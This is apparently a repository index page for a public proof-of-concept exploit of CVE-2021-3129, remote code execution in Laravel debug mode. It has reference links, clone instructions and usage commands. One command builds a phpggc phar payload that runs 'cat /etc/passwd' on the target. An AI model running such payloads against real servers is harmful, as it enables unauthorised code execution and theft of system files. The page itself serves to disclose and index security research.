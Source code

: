 # CVE-2021-3129

Laravel debug mode - Remote Code Execution (RCE)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/hupe1980](https://github.com/hupe1980) |
| Url      | [https://github.com/hupe1980/CVE-2021-3129](https://github.com/hupe1980/CVE-2021-3129)                                               |
| Stars    | 0                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-3129* laravel

</details>

## Readme

# CVE-2021-3129
Laravel debug mode - Remote Code Execution (RCE)

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129
- https://www.ambionics.io/blog/laravel-debug-rce
- https://github.com/ambionics/phpggc

# Example
```bash
python3 exploit.py http://127.0.0.1:8080
```
```bash
python3 exploit.py http://127.0.0.1:8080 --phar $(php -d phar.readonly=off -d phar.require_hash=off ./phpggc --phar phar -f monolog/rce1 system 'cat /etc/passwd' | base64 -w 0)
```




## Get the content

```
git clone https://github.com/hupe1980/CVE-2021-3129
cd CVE-2021-3129
```

{% embed url="https://github.com/hupe1980/CVE-2021-3129" %}

<figure><img src="https://avatars.githubusercontent.com/u/24973437?v=4" alt=""><figcaption><p>hupe1980</p></figcaption></figure>
